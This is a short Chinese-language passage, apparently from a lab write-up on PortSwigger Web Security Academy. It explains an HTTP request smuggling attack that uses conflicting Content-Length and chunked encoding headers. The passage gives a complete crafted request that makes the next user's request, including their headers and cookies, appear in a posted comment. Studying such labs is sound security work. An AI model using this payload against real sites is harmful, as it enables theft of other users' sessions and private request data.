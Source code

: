 原理也比较简单，我们可以找到一个发评论的地方，然后利用评论处进行 HTTP Smuggling，例如，我们可以构造以下请求包：

```bash
POST / HTTP/1.1
Host: ac951f7d1e9ea625803c617f003f005c.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 271
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At

csrf=oIjWmI8aLjIzqX18n5mNCnJieTnOVWPN&postId=5&name=1&email=1%40qq.com&website=http%3A%2F%2Fwww.baidu.com&comment=1
```

只要下面这个 CL 足够大，我们就可以用 HTTP Smuggling 把下一个用户的请求拼接到我们最后一个 comment 参数里面了，然后我们在看评论处就可以看到别人的请求头了。
